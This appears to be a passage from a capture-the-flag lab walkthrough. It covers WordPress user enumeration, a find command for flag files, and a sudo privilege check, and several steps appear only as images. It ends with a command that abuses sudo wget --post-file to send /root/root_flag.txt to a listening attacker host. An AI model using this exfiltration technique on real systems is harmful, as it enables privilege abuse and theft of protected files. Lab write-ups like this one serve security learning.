```bash
[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```





We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

<details><summary>🚩 Flag 1 (user_flag.txt)</summary></details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.











<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>
